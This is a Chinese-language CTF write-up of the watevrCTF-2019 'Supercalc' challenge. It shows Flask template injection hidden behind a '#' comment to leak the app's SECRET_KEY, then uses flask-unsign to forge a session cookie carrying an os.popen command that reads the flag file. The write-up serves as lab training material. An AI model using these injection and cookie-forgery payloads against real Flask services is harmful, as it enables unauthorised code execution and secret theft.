 # \[watevrCTF-2019]Supercalc

## \[watevrCTF-2019]Supercalc

## 考点

* Flask SSTI获取config
* Flask SSTI使用注释绕过，`#`绕过

## wp

输入`9*9`发现会回显

![](<../../.gitbook/assets/image (1) (1) (1) (1).png>)

返回包会设置新的cookie

![](<../../.gitbook/assets/image (24) (1) (1) (1) (1).png>)

解密cookie

```
flask-unsign.exe --decode --cookie .eJyrVsrILC7JL6pUsoquVkrOT0lVslKyVNBSsFSq1SEoEFsLAHINEiw.Ympom w.4lGVLm2AEMchuz70376S52EDT6M
{'history': [{'code': '9 * 9'}, {'code': '9 * 9'}, {'code': '9 * 9'}]}
```

直接输入`{{7*7}}`或者`{%print(1)%}`会提示字符错误

计算器的功能那就输入`1/0`主动构造错误输入

![](<../../.gitbook/assets/image (22) (1) (1) (1) (1) (1).png>)

发现它是把输入直接当代码处理的，这里可以fuzz一下看看哪些字符串没过滤

输入`1/0#{{7*7}}`可以看到回显的结果

![](<../../.gitbook/assets/image (8) (1) (1) (1).png>)

输入输入`1/0#{{config}}`获取config

```
Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'cded826a1e89925035cc05f0907855f7', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}
```

题目把cookie中的code执行了，修改为Python代码

```
flask-unsign.exe --secret "cded826a1e89925035cc05f0907855f7" --sign --cookie "{'history': [{'code': '__import__(\"os\").popen(\"cat flag.txt\").read()'}]}"
```

结果`eyJoaXN0b3J5IjpbeyJjb2RlIjoiX19pbXBvcnRfXyhcIm9zXCIpLnBvcGVuKFwiY2F0IGZsYWcudHh0XCIpLnJlYWQoKSJ9XX0.YmpyRw.x1LGNmBA3XHPATpHZDhGadZOoNA`

![](<../../.gitbook/assets/image (34) (1) (1) (1).png>)
